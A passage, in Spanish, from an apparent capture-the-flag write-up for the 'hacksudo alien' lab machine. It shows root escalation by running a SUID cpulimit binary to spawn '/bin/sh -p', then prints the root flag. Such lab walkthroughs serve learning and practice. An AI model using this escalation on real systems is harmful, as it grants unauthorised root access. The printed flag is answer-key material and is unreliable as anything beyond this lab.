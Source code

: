 Por lo que si hacemos lo siguiente seremos `root`...

```shell
cd /home/hacksudo/Downloads/
```

```shell
./cpulimit -l 100 -f -- /bin/sh -p
```

Una vez hecho esto ya seremos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
 _   _            _                  _       
| | | | __ _  ___| | _____ _   _  __| | ___  
| |_| |/ _` |/ __| |/ / __| | | |/ _` |/ _ \ 
|  _  | (_| | (__|   <\__ \ |_| | (_| | (_) |
|_| |_|\__,_|\___|_|\_\___/\__,_|\__,_|\___/ 
                                             
    _    _ _            ____   __   
   / \  | (_) ___ _ __ | ___| / /_  
  / _ \ | | |/ _ \ '_ \|___ \| '_ \ 
 / ___ \| | |  __/ | | |___) | (_) |
/_/   \_\_|_|\___|_| |_|____/ \___/ 

congratulations you rooted hacksudo alien56...!!!
flag={d045e6f9feb79e94442213f9d008ac48}
```
